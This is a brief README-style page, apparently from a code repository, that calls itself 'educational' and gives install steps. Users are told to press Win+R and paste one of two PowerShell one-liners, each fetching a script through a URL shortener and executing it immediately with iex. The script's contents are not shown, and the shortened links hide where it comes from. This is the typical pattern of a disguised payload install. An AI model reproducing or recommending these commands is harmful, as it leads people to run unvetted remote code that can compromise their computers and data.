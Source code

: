 educational propouses only.

For install:
Win + R and paste this:

option 1:
```powershell "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```


option 2:
```powershell "iex(iwr abre.ai/-i -UseB)"```
